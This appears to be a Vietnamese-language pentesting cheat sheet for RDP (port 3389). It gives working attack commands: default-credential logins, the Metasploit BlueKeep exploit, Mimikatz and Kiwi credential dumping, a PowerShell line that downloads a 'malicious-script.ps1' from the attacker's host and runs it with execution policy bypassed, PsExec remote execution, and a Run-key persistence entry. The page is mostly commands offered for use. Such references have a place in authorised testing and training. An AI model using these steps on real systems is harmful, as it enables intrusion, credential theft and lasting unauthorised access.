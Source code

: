 # RDP (Port 3389)

## Connect

### Remote Desktop Connection

Kết nối tới máy chủ RDP bằng tiện ích Remote Desktop Connection trên Windows:

```
mstsc /v:<ip>:<port>
```

### xfreerdp

Sử dụng xfreerdp, một client RDP mã nguồn mở, để kết nối từ nhiều nền tảng:

```
xfreerdp /u:<uname> /p:'<pass>' /v:<ip>
xfreerdp /d:<domain.com> /u:<uname> /p:'<pass>' /v:<ip>
xfreerdp /u:<uname> /p:'<pass>' /v:<ip> +clipboard
```

***

## Attack Vectors

### Đăng nhập với thông tin mặc định

Thử các tài khoản/mật khẩu phổ biến như `administrator`, `admin`, `user`:

```
xfreerdp /u:<uname> /p:'<pass>' /v:<ip>
```

### BlueKeep (CVE-2019-0708)

Khai thác lỗ hổng BlueKeep trên các phiên bản Windows dễ bị tấn công để thực thi mã từ xa:

<pre><code>msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
<strong>   > set RHOSTS &#x3C;ip>
</strong>   > set LHOST &#x3C;your_ip>
   > exploit
</code></pre>

***

## Post-Exploitation

### Trích xuất thông tin đăng nhập bằng Mimikatz

Trích xuất thông tin đăng nhập từ bộ nhớ sau khi truy cập RDP:

```
Invoke-Mimikatz -DumpCreds
```

### Trích xuất thông tin đăng nhập bằng Kiwi

Sử dụng tiện ích mở rộng Kiwi trong Meterpreter để trích xuất thông tin đăng nhập:

```
meterpreter > load kiwi
meterpreter > creds_all
```

### Thực thi mã từ xa (RCE)

Thực thi mã tùy ý trên máy chủ RDP bằng PowerShell:

<pre data-overflow="wrap"><code><strong>Invoke-WebRequest -Uri http://&#x3C;your_ip>/malicious-script.ps1 -OutFile C:\temp\malicious-script.ps1
</strong>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\temp\malicious-script.ps1
</code></pre>

### Chạy chương trình từ xa

Chạy chương trình trên máy chủ RDP bằng PsExec:

```
psexec \\<ip> -u <username> -p <password> "cmd.exe /c \"C:\path\to\executable.exe\""
```

### Duy trì truy cập

Thêm mục đăng ký để duy trì truy cập liên tục trên hệ thống:

{% code overflow="wrap" %}

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v <key_name> /t REG_SZ /d "<command>" /f
```

{% endcode %}